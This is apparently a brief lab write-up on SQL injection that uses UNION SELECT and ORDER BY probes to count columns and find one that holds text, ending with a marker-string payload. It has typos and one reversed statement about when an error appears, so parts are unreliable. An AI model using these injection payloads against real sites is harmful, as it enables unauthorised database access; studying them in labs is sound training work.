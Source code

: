 # Finding a column containing text

Just like previous lab here we are going to use <b>UNION</b> attack but to find text given to us

example query

```
' union select 'a',null,null,null--
' union select null,'a',null,null--
' union select null,null,'a',null--
' union select null,null,null,'a'--
```
if the data type is compatible with the injected string , it will return error

end goal: to find a text conatining column

but first we need to find total number of columns here 

```
' order by 1--
' order by 2--
' ordre by 3--
```
here we have three colummn in which second column , so now time for our payload

payload

```
' union select null, 'OOpujD', null--
```